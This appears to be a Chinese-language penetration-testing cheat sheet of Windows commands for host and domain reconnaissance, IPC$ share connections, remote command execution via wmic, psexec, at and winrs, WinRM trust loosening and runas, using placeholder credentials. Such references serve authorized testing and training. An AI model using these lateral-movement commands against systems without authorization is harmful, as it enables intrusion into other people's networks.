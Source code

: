 # 渗透测试—— Windows 系统常用命令

## 0x01 信息收集
### 1.1 本机信息
 - 查看系统信息 ： `systeminfo`
 - 查看进程 ： `tasklist`
 - 查看当前工作目录  : `chdir` 
 - 查看网络会话 ： `netsat -ano`
 - 查看用户： `net user`
 - 查看管理员：`net localgroup administrators `
 - 查看abc用户信息：`net user abc`
 - 查看文件共享：`net use`
 - 查看远程桌面连接历史： `cmdkey /l`
 - 查看杀毒软件 ： `wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe`
 - 查询登录用户：`query user`
### 1.2 域信息
> 有时候本地用户无法查到相关信息，可以通过runas切换到域用户进行查询。      

- 查看域：`net view /domain`
- 查看abc域中的主机：`net view /domain:abc` 
- 查看域用户 ：`net user /domain`
- 查看域管理员 ： `net group "domain admin" /domain`
- 查看本机域管理员 ：`net localgroup administrators /domain `
- 查看域控主机 ：`dsquery server`  or `net group “domain controllers” /domain`
## 0x02 远程文件操作
### net use
前置条件：目标主机开启IPC$共享（端口：445）      
目标主机：192.168.0.1 用户名：abc 密码：password
- 建立空连接: `net use \\192.168.0.1\ipc$ "" /user:"" `
- 建立非空连接: `net use \\192.168.0.1\ipc$ "password" /user:"abc" `
 - 映射默认共享: `net use z: \\192.168.0.1\c$ "password" /user:"abc"`
 - 删除一个ipc$连接： `net use \\192.168.0.1\ipc$ /del`
- 删除映射的z盘: `net use z: /del `

### net share
本机开启共享：   
```
net share c$=c:
net share d$=d:
net share ipc$
net share admin$
```
## 0x03 远程命令执行
### wmic
前置条件：目标开启 "Windows Management Instrumentation" 服务（端口：135）   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令 ： `wmic /node:192.168.0.1 /user:abc /password:password PROCESS call create "cmd /c ver > c:\\test.txt"`

### psexec

前置条件：目标开启 ADMIN$ 共享（端口：445）   
工具：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令(交互式shell) ： `psexec \\192.168.0.1 -u abc -p password cmd`

### at
前置条件：目标启动 Task Scheduler 服务    
目标主机：192.168.0.1 用户名：abc 密码：password  

- 添加计划任务在远程系统上执行命令: `at \\192.168.0.1 23:00 cmd.exe /c "ver > c:\test.txt"`
- 查看 at 任务列表: `at \\192.168.0.1`
- 删除 at 计划任务: `at \\192.168.17.138 1 /delete`

### winrm
前置条件：目标启动winrm服务（5985,5986端口）
目标启动快速启动winrm服务：
```
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
```
目标主机：192.168.0.1 用户名：abc 密码：password  
执行命令： `winrs -r:http://192.168.0.1:5985 -u:abc -p:password  "whoami /all"`


## 0x04 权限切换

- 通过abc用户权限启动cmd：
`runas /user:abc cmd`


## ref
- https://chen1sheng.github.io/2020/11/30/%E6%B8%97%E9%80%8F/windows/Windows%E5%9F%9F%E6%B8%97%E9%80%8F%E5%B8%B8%E8%A7%81%E5%91%BD%E4%BB%A4/
- https://www.cnblogs.com/LyShark/p/11344288.html
- https://cloud.tencent.com/developer/article/1180419
